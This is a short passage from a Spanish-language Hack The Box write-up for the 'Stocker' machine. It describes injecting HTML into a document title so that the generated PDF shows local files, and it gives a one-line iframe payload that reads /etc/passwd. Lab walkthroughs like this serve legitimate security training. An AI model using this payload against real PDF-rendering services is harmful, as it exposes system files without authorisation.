 ![](/assets/images/HTB/writeup-stocker/mariano-pdf1.png)

## HTML Injection 💉 [#](#html-injection) {#html-injection}
Sacando conclusiones, seguramente podemos inyectar código HTML en el titulo.

```bash
# Inyectamos código HTML para conseguir ver mediante el PDF archivos de la máquina
--------------------------------------------------------------
<iframe src=/etc/passwd> </iframe>
```
